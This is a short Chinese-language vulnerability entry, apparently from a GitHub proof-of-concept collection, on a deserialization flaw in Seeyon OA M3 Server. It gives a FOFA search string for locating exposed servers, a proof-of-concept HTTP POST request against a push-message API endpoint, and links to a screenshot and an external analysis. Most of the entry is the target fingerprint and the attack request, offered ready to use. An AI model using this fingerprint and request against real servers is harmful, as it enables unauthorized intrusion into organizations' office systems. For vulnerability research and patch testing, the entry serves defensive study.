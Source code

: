 
## 致远OA M3 Server 反序列化漏洞

## fofa
```
"M3-Server 已启动"
```

根据群友说，这个漏洞是fastjson反序列化
## poc
```
POST /mobile_portal/api/pns/message/send/batch/6_1sp1 HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 
Content-Type: application/x-www-form-urlencod

[{"serviceProvider":"baidu","deviceType":"androidphone","userMessageId":"exp"}]
```
![ef21d114d1965815537db98570d2daf7](https://github.com/wy876/POC/assets/139549762/b3609c72-0516-4c69-a64f-62c86fffb30d)

## 漏洞分析
```
https://mp.weixin.qq.com/s/czbhaf7jpNmgjAt-OFWmIA
```
